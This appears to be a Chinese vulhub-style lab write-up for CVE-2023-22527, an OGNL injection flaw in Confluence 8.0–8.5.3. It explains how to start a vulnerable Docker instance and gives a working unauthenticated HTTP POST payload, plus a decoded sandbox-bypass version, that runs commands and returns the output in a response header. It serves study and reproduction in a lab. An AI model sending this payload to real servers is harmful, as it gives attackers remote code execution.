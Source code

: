 Confluence OGNL表达式注入命令执行漏洞（CVE-2023-22527）
==========================================

Atlassian Confluence是企业广泛使用的wiki系统。

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

参考链接：

- <https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html>
- <https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/>

漏洞环境
----

执行如下命令启动一个Confluence Server 8.5.3：

```php
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](https://shs3.b.qianxin.com/butian_public/f412596e61178ee2488455039cb06b14ba778c80db349.jpg)

漏洞复现
----

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```php
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![](https://shs3.b.qianxin.com/butian_public/f843914ad7ba7a7955357c10c8582aa9ddd2fcdce1317.jpg)

在Confluence 7.18.0版本后，官方开发者为其引入了`isSafeExpression`函数来限制执行恶意OGNL表达式。安全研究者[Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/)分享了一种利用velocity模板中的`#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`来获取无沙箱的OGNL对象并执行任意语句的绕过方法，完整并解码后的Payload如下：

```php
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```